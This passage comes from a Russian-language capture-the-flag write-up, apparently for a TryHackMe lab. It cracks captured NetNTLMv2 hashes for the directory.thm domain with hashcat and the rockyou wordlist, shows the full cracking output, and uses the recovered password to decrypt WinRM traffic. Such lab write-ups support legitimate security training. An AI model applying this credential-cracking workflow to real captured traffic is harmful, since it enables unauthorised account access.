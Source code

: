 Последние 30 символов хэша - ответ на 3 вопрос - `55[REDACTED]9f`
### 4. What is the user's password?

Теперь мы можем получить пароль:

```shell
hashcat.exe -a 0 -m 5600 hash3.txt rockyou.txt

[REDACTED(username)]::directory.thm:4d466ef19179c690:e18eca5d5ed8a7a08682a3cd4e993b3e:01010000000000008212cb751250da01fc1010028b6c723900000000020012004400490052004500430054004f0052005900010010004100440053004500520056004500520004001a006400690072006500630074006f00720079002e00740068006d0003002c00410044005300650072007600650072002e006400690072006500630074006f00720079002e00740068006d0005001a006400690072006500630074006f00720079002e00740068006d00070008008212cb751250da0109001e00570053004d0041004e002f00310030002e0030002e0032002e003700350006000400020000000000000000000000:[REDACTED(password)]

[REDACTED(username)]:::ec89ba38b848e655:f6dd396748ca42ed9b5c4dedf23aeec0:010100000000000000d30f891250da01e3cd78db2e80fd3900000000020012004400490052004500430054004f0052005900010010004100440053004500520056004500520004001a006400690072006500630074006f00720079002e00740068006d0003002c00410044005300650072007600650072002e006400690072006500630074006f00720079002e00740068006d0005001a006400690072006500630074006f00720079002e00740068006d0007000800de2f87891250da010000000000000000:[REDACTED(password)]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: hash3.txt
Time.Started.....: Tue Jul 29 11:35:57 2025 (0 secs)
Time.Estimated...: Tue Jul 29 11:35:57 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 92241.7 kH/s (8.18ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 3145728/28688768 (10.97%)
Rejected.........: 0/3145728 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> lindarockyou
Hardware.Mon.#1..: Temp: 42c Fan:  0% Util: 34% Core:2010MHz Mem:5750MHz Bus:16

Started: Tue Jul 29 11:35:48 2025
Stopped: Tue Jul 29 11:35:58 2025
```

Таким образом, пароль и ответ на вопрос 4 - [REDACTED] 

Введя его в поле NT Password, мы расшифруем часть коммуникации по WinRM